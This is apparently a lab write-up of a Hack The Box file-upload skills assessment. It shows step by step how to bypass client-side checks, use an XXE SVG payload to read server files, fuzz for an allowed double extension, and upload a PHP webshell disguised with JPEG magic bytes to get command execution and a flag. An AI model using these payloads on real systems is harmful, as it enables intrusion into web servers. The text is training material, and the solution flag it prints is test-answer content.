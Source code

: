 ﻿You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

---

## Extra Exercise

Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


![Pasted image 20250206180714.png](../../../IMAGES/Pasted%20image%2020250206180714.png)

Let's take a look at the site:

![Pasted image 20250206180859.png](../../../IMAGES/Pasted%20image%2020250206180859.png)

We got some sections that are interesting, the one I'm interested in the most is the contact us one, let's check it out:

![Pasted image 20250206181239.png](../../../IMAGES/Pasted%20image%2020250206181239.png)

And there we are, we have an upload feature, let's use burp and check the request:

![Pasted image 20250206182157.png](../../../IMAGES/Pasted%20image%2020250206182157.png)

We can `Do Intercept -> Response to this request`:

![Pasted image 20250206182227.png](../../../IMAGES/Pasted%20image%2020250206182227.png)

We need to erase the `CheckFile()` and change the `accept=`:

![Pasted image 20250206182356.png](../../../IMAGES/Pasted%20image%2020250206182356.png)

Now we are able to upload any kind of file, without the need of it being an image file, let's test the next thing:

## SVG XML Upload
---


We can now test if its possible to enumerate resources in the back-end server using `.svg` files, let's upload a file with the following contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname"> ]>
<svg>&xxe;</svg>
```

![Pasted image 20250206183458.png](../../../IMAGES/Pasted%20image%2020250206183458.png)

If we decode the contents of it:

![Pasted image 20250206183516.png](../../../IMAGES/Pasted%20image%2020250206183516.png)

It works, we are able to upload a malicious svg file, let's read the contents of `/upload.php`:


```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

Now we are able to see the whitelist and the blacklist of the upload endpoint, we can analyze the code and figure out the way to upload our webshell:

```ad-important
- **Blacklist Check**: BlocksÂ `.php`,Â `.phps`,Â `.phtml`.
    
- **Whitelist Regex**: Requires the filename to end withÂ `.[2-3 letters]g`Â (e.g.,Â `.jpg`,Â `.svg`).
- **MIME/Content-Type Check**: Must beÂ `image/[a-z]{2,3}g`Â (e.g.,Â `image/svg+xml`).
- Uploads directory
- Format of the file, it goes by date of upload.
```

Let's send an intruder attack in the following way:

![Pasted image 20250206184336.png](../../../IMAGES/Pasted%20image%2020250206184336.png)

We were able to identify a valid extension: `.phar.jpeg`. Let's proceed.



With this on mind, we can do the following:

```ad-hint
1. Create a php webshell with the right mime-type to bypass the filters.
2. Create a file called `shell.phar.jpeg`.
3. Change the mime type of the file using hexeditor.
```


Let's do it, these are the contents of `shell.phar.jpeg`:

```
AAAA
<?php echo system($_GET["cmd"]);?>
```

Now, we need to change the `AAAA` contents using hexeditor:

![Pasted image 20250206185029.png](../../../IMAGES/Pasted%20image%2020250206185029.png)

Let's replace them for the JPEG bytes: `FF D8 FF DB`

![Pasted image 20250206185110.png](../../../IMAGES/Pasted%20image%2020250206185110.png)

Nice, now let's try uploading the file:

![Pasted image 20250206185201.png](../../../IMAGES/Pasted%20image%2020250206185201.png)

It worked, let's check if the webshell works, in my case, the url would go like this:

```
http://94.237.54.42:58431/contact/user_feedback_submissions/250206_shell.phar.jpeg?cmd=id
```

If we check:

![Pasted image 20250206185927.png](../../../IMAGES/Pasted%20image%2020250206185927.png)

We got it, let's send it to burp to be more comfortable, let's list the contents:

```
bin
boot
dev
etc
flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var
```

We got our flag, let's read it:

![Pasted image 20250206190133.png](../../../IMAGES/Pasted%20image%2020250206190133.png)

Flag is:

```
HTB{m4573r1ng_upl04d_3xpl0174710n}
```


![Pasted image 20250206190210.png](../../../IMAGES/Pasted%20image%2020250206190210.png)

